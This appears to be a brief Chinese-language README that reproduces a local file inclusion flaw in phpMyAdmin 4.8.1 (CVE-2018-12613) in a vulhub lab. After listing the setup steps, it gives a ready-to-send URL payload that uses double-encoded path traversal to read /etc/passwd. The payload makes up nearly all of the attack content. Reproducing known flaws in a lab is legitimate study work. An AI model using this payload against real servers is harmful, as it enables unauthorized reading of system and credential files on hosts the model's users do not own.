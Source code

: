 phpmyadmin本地文件读取复现
--

### 复现环境

phpmyadmin 4.8.1
php 7


### 复现方法

去官网下载phpmyadmin 4.8.1版本，或者直接使用[vulhub](https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md)的漏洞环境

- 登录phpmyadmin

- 发送如下payload
`/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`

![](assets/poc.png)

就可以成功读取到/etc/passwd文件